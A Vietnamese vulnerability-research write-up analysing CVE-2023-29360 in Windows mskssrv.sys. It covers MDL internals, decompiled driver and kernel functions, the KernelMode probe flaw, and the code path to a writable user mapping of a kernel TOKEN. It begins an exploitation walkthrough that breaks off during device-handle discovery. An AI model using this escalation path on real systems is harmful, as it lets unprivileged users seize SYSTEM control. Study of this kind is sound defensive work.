

# CVE 2023-29360 - Microsoft Streaming Service Elevation of Privilege Vulnerability

**Released: Jun 13, 2023
Last updated: Aug 10, 2023**

**Assigning CNA:** Microsoft

**CVE.org link:** [CVE-2023-29360](https://www.cve.org/CVERecord?id=CVE-2023-29360)

**Impact:** Elevation of Privilege
**Max Severity: **Important

**Weakness:** [CWE-822: Untrusted Pointer Dereference](https://cwe.mitre.org/data/definitions/822.html)

**CVSS Source:** Microsoft

# General Knowledge

**Microsoft Kernel Streaming Server `mskssrv.sys`** là Driver thuộc **Windows Multimedia Framework**. Nó phục vụ cho **Frame Server** là một service ảo hóa camera, cho phép nhiều ứng dụng dùng camera cùng lúc (Zoom, Teams, v.v.).

Đây là một **Plug and Play Driver**, nghĩa là không có tên device cố định, phải tìm Device path qua Device Interface GUID. User có thể gọi `DeviceIoControl` để gửi **IOCTL** vào Driver này nếu có Handle dành cho IOCTL.

Về **CVE 2023-29360:**

- CVE ID: 2023-29360.
- Vuln Driver: **`mskssrv.sys`**
- Bug class: [CWE-822: Untrusted Pointer Dereference](https://cwe.mitre.org/data/definitions/822.html)
- Impact: Local Privilege Escalation
- Attack goal: Từ User-mode Process lên NT AUTHORITY\SYSTEM.
- Environment: Windows 10, version 21H2 (19044.2965) amd64



# Background Knowledge - Memory Descriptor List

## What are MDLs?

**Memory Descriptor List `MDL`** là một danh sách bao gồm các cấu trúc `MDL` mô tả cách một vùng bộ nhớ ảo liên kết với các trang nhớ vật lý (physical pages) tương ứng.

## MDL Structure

- Ta có cấu trúc của một `_MDL` :

  ```c
  //0x30 bytes (sizeof)
  struct _MDL
  {
      struct _MDL* Next;                                                      //0x0
      SHORT Size;                                                             //0x8
      SHORT MdlFlags;                                                         //0xa
      USHORT AllocationProcessorNumber;                                       //0xc
      USHORT Reserved;                                                        //0xe
      struct _EPROCESS* Process;                                              //0x10
      VOID* MappedSystemVa;                                                   //0x18
      VOID* StartVa;                                                          //0x20
      ULONG ByteCount;                                                        //0x28
      ULONG ByteOffset;                                                       //0x2c
  }; 
  ```
    
- Ta phân tích các trường của `_MDL` :
  - `struct _MDL* Next` : chứa con trỏ trỏ đến struct tiếp theo trong danh sách liên kết đơn `MDL` .
  - `SHORT Size` : là kích thước tính bằng byte của toàn bộ struct hiện tại.
  - `SHORT MdlFlags` : Chứa các cờ bit (bitmask) mô tả trạng thái và tính chất của MDL. Các cờ phổ biến bao gồm:

    - `MDL_PAGES_LOCKED`: Xác nhận các trang nhớ vật lý đã được khóa (locked) trên RAM, đảm bảo không bị page-out xuống đĩa cứng (thường thực hiện bằng hàm `MmProbeAndLockPages`).
    - `MDL_MAPPED_TO_SYSTEM_VA`: Báo hiệu vùng nhớ này đã được ánh xạ vào không gian địa chỉ của Kernel.
    - `MDL_SOURCE_IS_NONPAGED_POOL`: Cho biết buffer gốc được cấp phát từ **Non-Paged Pool.**
  - `USHORT AllocationProcessorNumber` : Trường này lưu trữ ****số hiệu của lõi CPU **(Logical Processor Number)** đã thực hiện việc cấp phát cấu trúc `MDL` này.
  - `struct _EPROCESS* Process` : Con trỏ trỏ tới cấu trúc `_EPROCESS` của tiến trình sở hữu không gian địa chỉ ảo ban đầu của buffer này.
  - `VOID* MappedSystemVa` : `MmGetSystemAddressForMdlSafe()`sẽ map các **PFN** vật lý vào không gian địa chỉ của Kernel và lưu kết quả trả về vào trường `MappedSystemVa`. Nếu cờ `MDL_MAPPED_TO_SYSTEM_VA` chưa được set, trường này thường vô giá trị hoặc là `NULL`.
  - `VOID* StartVa` : Địa chỉ ảo cơ sở (đã được làm tròn xuống kích thước trang - page aligned) đại diện cho trang địa chỉ ảo đầu tiên mà buffer này bắt đầu.
  - `ULONG ByteCount` : Kích thước chính xác tính bằng byte của buffer được mô tả, là lượng dữ liệu thực sự mà buffer đang chứa hoặc sẽ chứa nếu không tính phần đệm padding để align trang.
  - `ULONG ByteOffset` : Khoảng cách offset từ đầu trang ảo `StartVa` đến byte vật lý đầu tiên của buffer. Vì `StartVa` luôn được page-aligned, buffer hiếm khi nằm chính xác ở đầu trang bộ nhớ. Địa chỉ ảo ban đầu (Original Virtual Address) thực sự của buffer được tính bằng công thức: `VirtualAddress = StartVa + ByteOffset`.
  - Đó là toàn bộ phần cấu trúc Header của một struct `MDL` nhưng ngoài ra, ngay phía sau nó còn tồn tại một mảng gồm các **`PFN - Page frame number`.**
   Kích thước của mảng **`PF**N` là động nên việc khai báo cứng một mảng tĩnh bên trong struct `_MDL` là không khả thi vì Kernel không biết trước buffer sẽ lớn bao nhiêu.
   Khi hàm `IoAllocateMdl()` được gọi, Kernel sẽ tính toán kích thước thực tế theo công thức:
  `Tổng bộ nhớ cấp phát = sizeof(_MDL) + (Số trang nhớ * sizeof(PFN_NUMBER)).`Mảng **`PFN`** vô hình này được đặt nằm liền kề ngay phía sau phần Header trong bộ nhớ.

## MDL Lifecycle

Quá trình cấp phát/tạo `MDL` diễn ra khi Kernel hoặc Driver cần mô tả một buffer dưới dạng các page vật lý để phục vụ cho các quá trình  I/O, DMA, mapping, hoặc truyền buffer qua các tầng Driver.

Không phải cứ có buffer là có `MDL` mà nó thường xuất hiện khi buffer cần được lock, map, hoặc truyền qua I/O manager.

Các trường hợp cần đến khởi tạo `MDL` cho buffer:

- `Direct I/O` trong Driver.
  - Khi khởi tạo Device Object với flag:`DeviceObject->Flags |= DO_DIRECT_IO`
  - Khi các thao tác `DeviceIoControl(...)`, `ReadFile(...)` , `WriteFile(...)` được user gọi, I/O Manager có thể tự tạo `MDL` cho User Buffer và đặt vào `Irp->MdlAddress` . Lúc đó Driver không cần tự gọi `IoAllocateMdl()` cho buffer đó nữa. Driver chỉ cần lấy:
      
      ```c
      PMDL mdl = Irp->MdlAddress;
      PVOID kva = MmGetSystemAddressForMdlSafe(mdl, NormalPagePriority);
      ```
        
- Khi Driver tự có Buffer và muốn tạo `MDL` cho nó.
  
  Ví dụ Driver allocate non-paged pool:
  
  ```c
  PVOID buf = ExAllocatePool2(POOL_FLAG_NON_PAGED, size, 'gaT');
  PMDL mdl = IoAllocateMdl(buf, size, FALSE, FALSE, NULL);
  MmBuildMdlForNonPagedPool(mdl);
  ```
  
  Với non-paged pool thì không cần `MmProbeAndLockPages()` vì memory đã luôn nằm trong RAM không bị swap ra nữa.
  
  Xảy ra khi:
  
  - Driver muốn truyền Buffer này xuống lower Driver.
  - Dùng buffer cho DMA.
  - Map Buffer sang nơi khác.
  - Mô tả Buffer bằng Page List thay vì chỉ virtual address.
- Khi Driver nhận User pointer thủ công từ `IOCTL` thông qua `METHOD_NEITHER`
  
  Một số driver dùng `METHOD_NEITHER`. Khi đó I/O Manager không tự copy, cũng không tự tạo `MDL` cho User Buffer, Driver nhận thẳng user pointer.
  
  ```c
  PVOID userPtr = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
  ```
  
  Nếu Driver muốn xử lý đúng kiểu `MDL` :
  
  ```c
  PMDL mdl = IoAllocateMdl(userPtr, size, FALSE, FALSE, NULL);
  MmProbeAndLockPages(mdl, UserMode, IoReadAccess);
  PVOID kva = MmGetSystemAddressForMdlSafe(mdl, NormalPagePriority);
  ```
    

Một `MDL` đi qua quá sau từ khi được tạo đến khi bị hủy:


- **1. Allocate MDL structure**: Hàm `IoAllocateMdl()` được gọi:
    
  ```c
  PMDL IoAllocateMdl(
    [in, optional]      __drv_aliasesMem PVOID VirtualAddress,
    [in]                ULONG                  Length,
    [in]                BOOLEAN                SecondaryBuffer,
    [in]                BOOLEAN                ChargeQuota,
    [in, out, optional] PIRP                   Irp
  );
  ```
  
  Với tham số được truyền vào là `VirtualAddress` địa chỉ địa chỉ bắt đầu của Buffer và có thể không chia hết cho PAGE_SZ và `Length` là size của Buffer.
  
  Tại bước này chỉ cấp phát ra vùng nhớ mới và tạo ra một **MDL Object** mới và chỉ điền vào các trường Header của struct như `StartVa` , `Size` .
  
  - Kernel sẽ dùng các macro để tính toán lại `StartVa` từ `VirtualAddress` với công thức theo macro: **`StartVa`** = `PAGE_ALIGN(VirtualAddress)` . Đây mới là địa chỉ được làm tròn xuống đầu trang bộ nhớ (chia hết cho **PAGE_SIZE**).
  - **`ByteOffset`** = `BYTE_OFFSET(VirtualAddress)`: Khoảng cách từ đầu trang `StartVa` đến byte đầu tiên thực sự của Buffer.
  
  Tại bước này, mảng **PFN** Array phía sau Header vẫn trống rỗng (chưa được khởi tạo). 
    
- **2. Build PFN Array & Probe and Lock Page:** Tại đây có 2 hướng xử lý dành cho Paged và Non-paged memory đối với địa chỉ của `MDL` struct mới được tạo.
    
  > Lí do cho việc này vì `MDL` không được phép bị swap ra ROM được vì khi đó các trang vật lý sẽ được tái sử dụng cho các tiến trình khác. Khi cần Buffer cần dùng đến và swap in thì các dữ liệu Buffer đã bị tiến trình khác thay đổi, dẫn đến sai lệch về dữ liệu hoặc có thể là Crash.
  > 
  - **Paged MDL Address**: Với struct `MDL` đã nằm trong vùng địa chỉ này thì không cần thực hiện khóa các Page này trên RAM nữa nên sẽ trực tiếp thực hiện build **PFN Array**. Hàm `MmBuildMdlForNonPagedPool()` được gọi:
      
    ```c
    VOID MmBuildMdlForNonPagedPool(
      [in, out] PMDL MemoryDescriptorList
    );
    ```
    Và tiến hành tạo lập **PFN Array** với các chỉ số của các trang vật lý cấu hình nên Buffer.
        
  - **Non-paged MDL Address**: Với struct `MDL` đã nằm trong vùng địa chỉ này thì trước hết cần khóa nó vào trong RAM rồi sau đó mới build **PFN Array**. Hàm `MmProbeAndLockPages()` được gọi:

    ```c
    VOID MmProbeAndLockPages(
      [in, out] PMDL            MemoryDescriptorList,
      [in]      KPROCESSOR_MODE AccessMode,
      [in]      LOCK_OPERATION  Operation
    );
    ```
    
    Các Page chứa `MDL` sẽ được lock lại trong RAM với quyền truy cập `Operation`  và `AccessMode`  được quy định tùy vào Driver.
  
  **Lưu ý:** Với 2 AccessMode:
  
  - `KernelMode(0)` : Các bước kiểm tra và ràng buộc sẽ lỏng lẻo hơn vì Kernel tin rằng đây là địa chỉ thuộc hệ thống và rất đáng tin cậy. Các kiểm tra về quyền truy cập và phạm vi đều được bỏ qua.
  - `UserMode(1)` : Các bước kiểm tra như kiểm tra phạm vi địa chỉ dựa trên trường `StartVA`, `ByteCount` được kiểm tra và xem rằng vùng địa chỉ này có thuộc User-mode hay không (nếu thuộc Kernel-mode sẽ bị cấm). Đồng thời, còn thực hiện kiểm tra quyền truy cập của Process hiện tại có quyền thực hiện các operation ứng với các operation được quy định trước đó thông qua trường `Operation` hay không.
- **3. Map to System VA and build Kernel address space:** Sau khi đã tạo lập thành công struct `MDL` hệ thống sẽ thực hiện map các **PFN** trong `MDL` vào một địa chỉ Kernel space ảo
    
  Việc map các **PFN** trong `MDL` vào một địa chỉ Kernel space ảo là để các Driver có thể tương tác và thực hiện chỉnh sửa dữ liệu được lưu trong các trang vật lý vì các thành phần thuộc Kernel không thể tương tác trực tiếp với các trang vật lý mà chỉ có thể tương tác với địa chỉ ảo.
  
  Hàm thực hiện việc này là `MmGetSystemAddressForMdlSafe()` :
  
  ```c
  PVOID MmGetSystemAddressForMdlSafe(
    [in] PMDL  Mdl,
    [in] ULONG Priority
  );
  ```
  
  Sau khi hàm thực thi xong, ta sẽ có vùng địa chỉ ảo thuộc Kernel space của các trang vật lý trong `MDL` .
    
- **4. Use Buffer**: Sau khi các setup đã hoàn thiện, Buffer sẽ được đưa vào sử dụng bởi các Process, Driver.
- **5. Unlock & Free MDL**: Sau khi sử dụng xong, các struct `MDL` cần được giải phóng và có 2 hướng xử lý dành cho Paged và Non-paged `MDL` address.
  - **Paged MDL Address:** Các trang địa chỉ này ban đầu đã được khóa sẵn trong RAM rồi (nghĩa là đã đi thẳng đến bước `MmBuildMdlForNonPagedPool()` ) thì không cần thực hiện Unlock nữa mà sẽ trực tiếp gọi `IoFreeMdl()` để giải phóng bộ nhớ.
  - **Non-paged MDL Address:** Ngược lại, các trang địa chỉ này ban đầu không được khóa sẵn trong RAM mà chỉ được khóa để dùng cho struct `MDL` khi hàm `MmProbeAndLockPages()` được gọi nên sẽ cần phải thực hiện Unlock nó trước rồi mới gọi `IoFreeMdl()` để giải phóng bộ nhớ.
  
  Kết thúc một chu trình vòng đời của một struct `MDL` .
    


# Deep dive into CVE 2023-29360

## Vulnerability Detection

Tất cả bắt đầu từ sự nhầm lẫn tai hại về cách mà **`mskssrv.sys`** xử lý quá trình cấp phát và lock struct `MDL` trong hàm **`FsAllocAndLockMdl()` :**

```c
NTSTATUS __fastcall FsAllocAndLockMdl(void *addr_ptr, ULONG length, struct _MDL **output)
{
  NTSTATUS status; // edi
  struct _MDL *Mdl; // rax
  struct _MDL *tmp_mdl; // rbx

  status = 0;
  if ( !addr_ptr || !length || !output )
    return 0xC000000D;                          // STATUS_INVALID_PARAMETER
  Mdl = IoAllocateMdl(addr_ptr, length, 0, 0, 0);
  tmp_mdl = Mdl;
  if ( !Mdl )
    return 0xC000009A;                          // STATUS_INSUFFICIENT_RESOURCES
  MmProbeAndLockPages(Mdl, 0, IoWriteAccess);   // MmProbeAndLockPages(Mdl, KernelMode, IoWriteAccess);
  *output = tmp_mdl;
  return status;
}
```

Hàm nhận vào tham số `addr_ptr` là địa chỉ của Buffer mà User process truyền xuống và tiến hành tạo lập struct `MDL` với `addr_ptr` và `length` . Sau khi cấp phát và khởi tạo MDL Header xong, hàm hoàn thiện `MDL` bằng cách **Probe**, **Lock** các Page tương ứng và điền **PFN Array** vào `MDL` bằng `MmProbeAndLockPages()` với `AccessMode = 0 (KernelMode)`  và `Operation = IoWriteAccess`. 

Đây chính xác là lỗ hỏng cốt lõi của toàn bộ CVE 2023-29360 vì `MmProbeAndLockPages()` sẽ không thực hiện các kiểm tra an toàn dành cho **User-mode pointer**. Nói cách khác, nó giả định rằng địa chỉ truyền vào là **Kernel-trusted pointer,** vì vậy nếu `addr_ptr` thực tế có nguồn gốc từ User-mode, user có thể khiến **Driver Probe/Lock** một địa chỉ không đáng tin cậy, bao gồm cả các địa chỉ nằm ngoài phạm vi User-mode thông thường như một **Kernel-space pointer**.

Hơn thế nữa, với việc quy định `Operation = IoWriteAccess` thì nghĩa là ta hoàn toàn có quyền chỉnh sửa dữ liệu tại vùng bộ nhớ `addr_ptr` .

## Vulnerability Approach

Ta có `MiProbeAndLockPages()` & `MiProbeAndLockPrepare()` code snippet:
    
```c
// From ntoskrnl.exe
// MiProbeAndLockPages()
NTSTATUS __fastcall MiProbeAndLockPages(PMDL mdl, char access_mode, unsigned int operation)
{
  char v6; // r14
  int status; // eax
  int v8; // edi
  unsigned __int64 v9; // rbx
  _QWORD *v10; // rcx
  NTSTATUS result; // eax
  __int64 v12; // rbx
  NTSTATUS v13; // edi
  unsigned __int64 v14; // r8
  __int64 v15; // rdx
  _QWORD v16[22]; // [rsp+40h] [rbp-69h] BYREF
  __int64 v17; // [rsp+110h] [rbp+67h] BYREF

  memset(v16, 0, 0xA8u);
  v6 = 0;
  status = MiProbeAndLockPrepare(
              (__int64)v16,
              mdl,
              (unsigned __int64)mdl->StartVa + mdl->ByteOffset,
              mdl->ByteCount,
              access_mode,
              operation,
              1);
  
// MiProbeAndLockPrepare()
NTSTATUS __fastcall MiProbeAndLockPrepare(
        __int64 a1,
        PMDL mdl,
        unsigned __int64 buffer_start_address,
        unsigned int byte_count,
        char access_mode,
        unsigned int operation,
        int a7)
{
  unsigned int operate; // r8d
  unsigned __int64 end_of_buffer; // rsi
  __int64 v11; // rcx
  unsigned __int64 v12; // rsi
  unsigned __int64 v13; // r14
  __int16 v14; // ax
  __int16 v15; // cx
  struct _EPROCESS *v16; // rcx
  __int64 v18; // rax
  __int64 v19; // rdi
  __int64 v20; // rax
  int v21; // ecx
  unsigned __int64 v22; // rdx
  unsigned __int64 v23; // rcx
  NTSTATUS v24; // esi

  operate = operation;
  end_of_buffer = buffer_start_address + byte_count;
  operation = 0;
  *(_QWORD *)(a1 + 72) = KeGetCurrentThread();
  *(_QWORD *)(a1 + 56) = mdl;
  *(_DWORD *)(a1 + 88) = operate;
  *(_QWORD *)a1 = buffer_start_address;
  *(_QWORD *)(a1 + 8) = end_of_buffer;
  if ( access_mode && (end_of_buffer > 0x7FFFFFFF0000LL || buffer_start_address >= end_of_buffer) )
  {
    ++dword_140C4E4F8;
    return 0xC0000005;
  }
  else
  {
  // .......
  }
```
    

Bên trong `MiProbeAndLockPrepare()` ta thấy rằng khi `AccessMode = 0 (KernelMode)` thì biểu thức:

```c
// MiProbeAndLockPrepare()
if ( access_mode && (end_of_buffer > 0x7FFFFFFF0000LL || buffer_start_address >= end_of_buffer) )
{
  ++dword_140C4E4F8;
  return 0xC0000005;
}
```

Sẽ không thỏa mãn nên nhánh **else{}** sẽ được thực hiện và các check về phạm vi địa chỉ như `(end_of_buffer > 0x7FFFFFFF0000LL || buffer_start_address >= end_of_buffer)` không được thực hiện dẫn đến việc ta dễ dàng có một struct `MDL` được cấp phát cùng với một `PTE` mới trực tiếp tham chiếu và quản lý các trang vật lý chứa dữ liệu ở một địa chỉ bất kì trong **Kernel space** và đặc biệt là nhạy cảm như `TOKEN` .


Nhưng vấn đề ở đây là việc chỉ sở hữu MDL trỏ tới `TOKEN` là chưa đủ để ghi đè dữ liệu vì `MDL` tồn tại ở Kernel-mode và ta không có quyền ghi trực tiếp trên địa chỉ `TOKEN` đang được quản lý bởi `MDL` . Vậy nên tiếp theo, ta cần thực hiện việc map các trang vật lý tại `TOKEN` được quản lý bởi `MDL` này với một địa chỉ thuộc User-mode để các thao tác chỉnh sửa dữ liệu được hợp lệ.

Ta xem tiếp đến hàm `FsMapLockedPages()` :

```c
NTSTATUS __fastcall FsMapLockedPages(struct _MDL *mdl, ULONG Priority, PVOID *a3)
{
  NTSTATUS return_status; // ebx

  return_status = 0;
  if ( !mdl || !a3 )
    return 0xC000000D;                          // STATUS_INVALID_PARAMETER
  *a3 = 0;
  *a3 = MmMapLockedPagesSpecifyCache(mdl, 1, MmCached, 0, 0, Priority);
			  //MmMapLockedPagesSpecifyCache(Mdl, UserMode, MmCached, 0, 0, Priority);
  return return_status;
}
```

Hàm sẽ gọi `MmMapLockedPagesSpecifyCache()` :

```c
PVOID MmMapLockedPagesSpecifyCache(
  [in]           PMDL                                                                          MemoryDescriptorList,
  [in]           __drv_strictType(KPROCESSOR_MODE / enum _MODE,__drv_typeConst)KPROCESSOR_MODE AccessMode,
  [in]           __drv_strictTypeMatch(__drv_typeCond)MEMORY_CACHING_TYPE                      CacheType,
  [in, optional] PVOID                                                                         RequestedAddress,
  [in]           ULONG                                                                         BugCheckOnFailure,
  [in]           ULONG                                                                         Priority
);
```

Khi được gọi, `MmMapLockedPagesSpecifyCache()` sẽ thực hiện tạo ra một `PTE` mới tham chiếu vào cùng các trang vật lý mà `MDL` và `PTE` của nó đang quản lý lấy từ tham số `MemoryDescriptorList` rồi trả về địa chỉ ảo (hoặc có thể tự quy định qua tham số `RequestedAddress`) thuộc Kernel hay User mode phụ thuộc vào tham số `AccessMode` (trong context hiện tại là User-mode) được map vào các trang vật lý đó.


Và trong ngữ cảnh hiện tại, ta sẽ sử dụng `FsMapLockedPages()` ,`MmMapLockedPagesSpecifyCache()` cùng với `MDL` quản lý các trang vật lý `TOKEN` và tiến hành map nó vào một vùng địa chỉ thuộc User-mode. Khi đó ta hoàn toàn có thể điều chỉnh dữ liệu tại trang vật lý mà địa chỉ User-mode đó map đến và thành công ghi đè được `TOKEN` .

Còn một điều quan trọng nữa là trường `Priority` được truyền vào làm tham số của `MmMapLockedPagesSpecifyCache()` . Ta cần đảm bảo giá trị của trường `Priority = NormalPagePriority` để ta có toàn quyền đọc ghi các trang vật lý tại địa chỉ User-mode. Vậy nghĩa là tham số `Priority` của `FsMapLockedPages` cần có giá trị tương tự.

Ta có bảng các giá trị flag `Priority` như sau:

```c
0x00000010: NormalPagePriority (Độ ưu tiên bình thường).

0x40000000: MdlMappingNoExecute (Không có quyền thực thi - NX bit).

0x80000000: MdlMappingNoWrite (Không có quyền ghi - Read-Only)
```

Tìm kiếm các path code dẫn đến `FsMapLockedPages()` , ta có một code snippet thuộc `FSStreamReg::ConsumeTx` gọi đến hàm theo 2 nhánh như sau:

```c
NTSTATUS __fastcall FSStreamReg::ConsumeTx(FSStreamReg *this, struct FSFrameInfo *a2)
{
  // Some local variables and stuff
  while ( 1 )
  {
    // Some stuff
    if ( HIDWORD(v9[4].Blink) )
    {
	    // FsMapLockedPages()
	    // Priority = ~(unsigned int)((unsigned __int64)v14 >> 29) & 0x80000000 | 0x40000010
	    // 
      locked = FsMapLockedPages(
                 (struct _MDL *)v9[10].Flink,
                 ~(unsigned int)((unsigned __int64)v14 >> 29) & 0x80000000 | 0x40000010,
                 (PVOID *)&v9[10].Blink);
      // ...
LABEL_26:
      v16 = (struct _MDL *)v9[11].Flink;
      if ( v16 )
      {
	      // FsMapLockedPages() 
	      // Priority = 0xC0000010 
	      // (MdlMappingNoWrite | NormalPagePriority | MdlMappingNoExecute)
        locked = FsMapLockedPages(v16, 0xC0000010, (PVOID *)&v9[11].Blink);
				// ...
  }
```

Phân tích cho thấy, rõ ràng ở nhanh 2 `Priority` được truyền mặc định với giá trị flag là `0xC0000010 MdlMappingNoWrite | NormalPagePriority | MdlMappingNoExecute` và với flag này thì vùng địa chỉ sau khi được map với các trang vật lý `TOKEN` sẽ không có quyền chỉnh sửa.

Vì vậy, nhánh khả thi duy nhất chỉ có nhánh 1 với 

```c
Priority = ~(unsigned int)((unsigned __int64)v14 >> 29) & 0x80000000 | 0x40000010
```

 Ta thấy giá trị `Priority` được tính toán động như sau:

- Nó luôn có sẵn `0x40000010` (`MdlMappingNoExecute` | `NormalPagePriority`).
- Cờ **`0x80000000` (`MdlMappingNoWrite`)** được thêm vào hay không phụ thuộc hoàn toàn vào vế:    `~(unsigned int)((v14) >> 29) & 0x80000000` .

Biểu thức này kiểm tra bit thứ 60 của biến `v14`. Nếu ta thao túng dữ liệu để bit 60 của `v14` là `1`: Phép đảo bit `~` sẽ biến nó thành `0` , `0 & 0x80000000` = `0`. Cờ `NoWrite` bị loại bỏ hoàn toàn!

**Kết quả:** Nếu ta kiểm soát được `v14`, `Priority` lúc này chỉ còn `0x40000010`. Trang vật lý chứa `TOKEN` sẽ được ánh xạ với quyền Đọc và Ghi (Read/Write).

Vậy ta đã xác định được nhánh code target mà ta cần gọi bao gồm 2 nhánh chính gọi đến `FsAllocAndLockMdl()` và `FsMapLockedPages()` . Truy vết rộng ra, ta sẽ có 2 path code hoàn chỉnh để gọi đến hàm mục tiêu tính từ **Dispatch Routine** của `mskssrv.sys` là `SrvDispatchIoControl()` :

- Path `FsAllocAndLockMdl()` : `SrvDispatchIoControl()` → `FSRendezvousServer::PublishTx()` → `FSStreamReg::PublishTx()` → `FSFrameMdl::AllocateMdl()` → `FsAllocAndLockMdl()` .
- Path `FsMapLockedPages()` : `SrvDispatchIoControl` → `FSRendezvousServer::ConsumeTx()` → `FSStreamReg::ConsumeTx()` → `FsMapLockedPages()` .


# Exploitation

## Step 1: Vulnerable Driver Connection

Nhắc lại kiên thức thì **Microsoft Kernel Streaming Server `mskssrv.sys`** là Driver thuộc **Windows Multimedia Framework** và là một **Plug and Play Driver** (trong `DriverEntry` nó gọi `IoCreateDevice` với `DeviceName = NULL`, nghĩa là **KHÔNG CÓ TÊN DEVICE CỐ ĐỊNH)** nên ta phải tìm `Device Path` qua **Device Interface GUID**. 

Với các Legacy Driver, điều này đơn giản, Driver đăng ký tên cố định `\Device\xyz` và ta gọi `CreateFile("\\\\.\\xyz")` là xong. Tuy nhiên với `mskssrv.sys` **KHÔNG CÓ TÊN DEVICE CỐ ĐỊNH** thì việc gọi `CreateFile("\\\\.\\xyz")` sẽ không thể lấy được handle đến Driver.

Vậy để có thể giao tiếp với Driver, mục tiêu đầu tiên là phải lấy được handle hợp lệ từ User-mode và ta sẽ sử dụng hàm này để lấy được handle đến Driver mục tiêu:

```c
/* 
Defination: 
HANDLE CreateFileW(
  [in]           LPCWSTR               lpFileName,
  [in]           DWORD                 dwDesiredAccess,
  [in]           DWORD                 dwShareMode,
  [in, optional] LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  [in]           DWORD                 dwCreationDisposition,
  [in]           DWORD                 dwFlagsAndAttributes,
  [in, optional] HANDLE                hTemplateFile
);
*/
CreateFileW(Driver_Device_Path, ...)
```

Với việc `Device Path` của Driver không cố định nên bước đầu tiên, ta cần tìm `Device Path` chuẩn của Driver thông qua việc trích xuất được **Device Interface GUID** mà `mskssrv.sys` đã đăng ký với Windows PnP Manager khi khởi tạo. Sau khi có được GUID này, ta có thể sử dụng chuỗi API chuẩn của Windows để lấy được `Device Path` thực tế, từ đó truyền vào hàm `CreateFile` và chính thức mở handle tương tác với Driver.

Để tìm được GUID này, ta sẽ thực hiện quá trình sau:

- Đầu tiên ta sẽ đặt breakpoint tại `FSStreamReg::PublishTx()` và tiến hành khởi động một tiến trình `Camera.exe` trên máy mục tiêu để khảo sát Stack Call của quá trình gọi đến `FSStreamReg::PublishTx()` .
  > Vì sao là `FSStreamReg::PublishTx()` ?
  > - `SrvDispatchIoControl()`: Bất kỳ tiến trình nào (Skype, Discord, trình duyệt...) tương tác với các thiết bị Audio/Video của Windows thông qua Kernel Streaming đều đi qua hàm này. Nếu đặt breakpoint ở đây, WinDbg sẽ dừng liên tục bởi các luồng dữ liệu hợp lệ của hệ điều hành.
  >
  > - `FSRendezvousServer::PublishTx()`: Tương tự, hàm này thuộc về Server Object quản lý chung. Nó vẫn có khả năng bị hệ thống gọi tự động trong các tiến trình bình thường, gây ra nhiễu.
    
  Breakpoint tại `FSStreamReg::PublishTx()`

  

  Kích hoạt tiến trình `Camera.exe` , ta reach được breakpoint:

  

  Ta có tiến trình host các module:

  

  Trên thực tế, `Camera.exe` giao tiếp với `Frame Server service` thông qua `IPC`. `Frame Server service` chạy dưới dạng một Windows Service được host bởi `svchost.exe` , process này load `frameserver.dll` vào trong không gian bộ nhớ của nó để thực thi.

  Do đó, toàn bộ các thao tác giao tiếp với **Driver** và Kernel-mode đều được thực hiện bởi `svchost.exe` thay mặt cho `Camera.exe`, và kết quả được trả về cho `Camera.exe` qua `IPC`.

  Vì ta sử dụng Windbg với Kdnet để debug Windows Kernel nên khi sử dụng `.reload` nó chỉ ưu tiên load các symbol của các module thuộc Kernel-mode. Lúc này, ta cần phải load lại các module thuộc User-mode để nhìn rõ hơn cách `Camera.exe` gửi request bằng lệnh 
  `.reload /user` . 
  
- Xem Call Stack hiện tại:
  
  
  
  Với Call Stack này ta dễ dàng thấy rằng các module thuộc Kernel-mode có Frame Index từ `0x0 - 0xf` và User-mode từ `0x10 - 0x23` .
  
  Với flow request này, ta dễ dàng xác định được User-mode caller chính trong toàn bộ quá trình này tại `Frame 0x13 - frameserver!MSKSSrv_PublishFrame+0x8c`  vì ngay sau đó tại `Frame 0x12 - 0x10` là quá trình gọi đến các hàm xử lý `IOCTL` nên ta có thể xác định ngay `Frame 0x13` là nơi sẽ tạo lập `IOCTL` bằng `DeviceIoControl()` trước khi gửi nó xuống Driver. 
  
  Điều này xác nhận `frameserver` (chạy trong `svchost.exe` và load `frameserver.dll`) là thành phần giao tiếp trực tiếp với `mskssrv.sys` . Nên ta sẽ tiến hành reverse cách `frameserver.dll` lấy Handle thông qua hàm `frameserver!FSGetMSKSSrvHandle` đóng vai trò cốt lõi và là hàm trực tiếp trả về Handle đến Driver cho tiến trình hiện tại, thông qua đó có thể lấy được Device Path chuẩn đến Driver.
  
- Khi đặt breakpoint tại `frameserver!FSGetMSKSSrvHandle` , Call Stack cho thấy hàm này được gọi trong quá trình khởi tạo Client Context:
  
  
  
  Ta reverse lại `frameserver.dll` ngay tại `frameserver!FSGetMSKSSrvHandle` :
  
  ```c
  __int64 __fastcall FSGetMSKSSrvHandle(void **a1)
  {
    // ...
      Device_Interface_List_SizeW = CM_Get_Device_Interface_List_SizeW(
                                      &pulLen,
                                      &GUID_3c0d501a_140b_11d1_b40f_00a0c9223196,
                                      0,
                                      0);
      // ...
      cur_device_path = (WCHAR *)operator new(saturated_mul(pulLen, 2u));
      path_to_device = cur_device_path;
      // ...
      Device_Interface_ListW = CM_Get_Device_Interface_ListW(
                                  &GUID_3c0d501a_140b_11d1_b40f_00a0c9223196,
                                  0,
                                  cur_device_path,
                                  pulLen,
                                  0);
      // ...
  LABEL_22:
